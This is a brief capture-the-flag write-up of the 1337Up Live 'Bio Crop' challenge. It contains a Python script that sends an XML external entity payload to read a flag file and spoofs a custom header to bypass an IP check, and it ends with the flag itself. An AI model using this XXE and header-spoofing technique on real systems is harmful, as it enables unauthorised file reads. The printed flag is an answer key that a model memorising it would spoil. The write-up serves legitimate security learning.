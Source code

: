 # 1337Up Live CTF

## Bio Crop

> https://biocorp.ctf.intigriti.io

XML external entity injection.

## Approach

Also need to bypass the check of IP by adding a custom HTTP header.

```python
import requests

url = "https://biocorp.ctf.intigriti.io/panel.php"
xml = """
<!DOCTYPE root [
<!ENTITY fileContents SYSTEM "file:///../flag.txt">
]>
<root>
<temperature>&fileContents;</temperature>
<pressure>77</pressure>
<control_rods>77</control_rods>
</root>
"""
resp = requests.post(url, headers={"X-BIOCORP-VPN": "80.187.61.102", "Content-Type": "application/xml"}, data=xml)
print(resp.text)
```

## Flag

```
INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}
```
